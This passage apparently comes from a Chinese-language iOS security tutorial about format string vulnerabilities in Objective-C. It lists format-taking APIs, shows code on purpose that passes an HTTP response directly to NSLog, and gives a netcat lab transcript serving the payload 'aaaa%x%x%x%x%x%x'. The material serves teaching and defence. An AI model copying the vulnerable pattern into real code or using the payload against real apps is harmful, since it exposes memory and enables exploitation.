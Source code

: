 ```

NSLog
[NSString stringWithFormat] 
[NSString stringByAppendingFormat] 
[NSString initWithFormat] 
[NSMutableString appendFormat] 
[NSAlert alertWithMessageText] 
[NSAlert informativeTextWithFormat] 
[NSException format] 
[NSMutableString appendFormat] 
[NSPredicate predicateWithFormat]

```

攻击者如果能够控制有关函数的部分或者全部的格式说明符，就能触发格式化字符串漏洞。以下是一段存在漏洞的代码：

```

NSString *myURL=@"http://10.0.2.1/test";
NSURLRequest *theRequest = [NSURLRequest requestWithURL:
[NSURL URLWithString:myURL]];
NSURLResponse *resp = nil; NSError *err = nil;
NSData *response = [NSURLConnection sendSynchronousRequest: 
theRequest returningResponse:&resp error: &err];
NSString * theString = [[NSString alloc] initWithData:response encoding:
NSASCIIStringEncoding];
NSLog(theString);

```

上面的代码构造一个Request请求，WEB服务器IP为10.0.2.1。Response存储在一个NSData对象中，并被转为一个NSString对象记录在NSLog中。NSLog封装了NSLogv方法，包括以下几个参数：

```

void NSLogv ( NSString *format, va_list args);

```

然而，在这个实例中开发人员只提供了一个单独的参数，允许攻击者指定可被记录的参数类型。
在调试器中运行这段代码，可以看到仅使用一段简单的HTTP服务器Response来触发格式化字符串漏洞：

```

bash-3.2# nc -lvp 80
listening on [any] 80 ...
10.0.2.2: inverse host lookup failed: Unknown host 
connect to [10.0.2.1] from (UNKNOWN) [10.0.2.2] 52141
GET /test HTTP/1.1
Host: 10.0.2.1
User-Agent: fmtstrtest (unknown version) CFNetwork/548.0.4 Darwin/11.0.0
Accept: */*
Accept-Language: en-us Accept-Encoding: gzip, deflate Connection: keep-alive
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 16
aaaa%x%x%x%x%x%x

```
